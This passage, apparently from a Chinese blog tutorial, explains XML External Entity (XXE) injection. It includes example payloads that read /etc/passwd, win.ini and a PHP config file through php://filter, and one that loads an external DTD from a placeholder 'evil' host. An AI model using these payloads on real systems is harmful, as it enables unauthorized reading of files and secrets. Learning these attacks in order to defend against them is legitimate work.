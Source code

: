```
file:///path/to/file.ext
http://url
php://filter/read=convert.base64-encode/resource=conf.php
```

外部引用可支持`http，file等协议`，不同的语言支持的协议不同，但存在一些通用的协议，具体内容如下所示：

![](https://img-blog.csdnimg.cn/20210314003705442.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

```
 <!ENTITY 实体名称 SYSTEM “URL/URL”>
```

例子：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
<!ELEMENT methodname ANY >
<!ENTITY xxe(实体引用名) SYSTEM "file:///etc/passwd"(实体内容) >]>
<methodcall>
<methodname>&xxe;</methodname>
</methodcall>
```
这种写法则调用了本地计算机的文件/etc/passwd，XML内容被解析后，文件内容便通过`&xxe`被存放在了methodname元素中，造成了敏感信息的泄露。

---
### 参数实体声明

```
 <!ENTITY % 实体名称 “实体的值”>
 or
 <!ENTITY % 实体名称 SYSTEM “URI”>
```

例子：

```
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
```
外部evil.dtd中的内容

```
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini” >
```

---
### 引用公共实体

```
<!ENTITY 实体名称 PUBLIC "public_ID" "URI">
```
